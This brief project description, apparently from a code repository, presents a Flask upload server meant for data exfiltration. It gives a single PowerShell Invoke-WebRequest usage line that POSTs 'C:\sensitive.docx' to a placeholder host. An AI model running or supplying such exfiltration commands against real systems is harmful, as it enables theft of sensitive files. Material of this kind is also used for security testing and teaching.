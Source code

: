 ::Data ex-filtration using PowerShell-Invoke-WebRequest::

This python flask based file upload server accepts the raw file data stream and allows to transfer the data out inside SSL wrapped HTTP POST.

Usage: Invoke-WebRequest -Method POST -URI https://destination.com -Infile "C:\sensitive.docx"









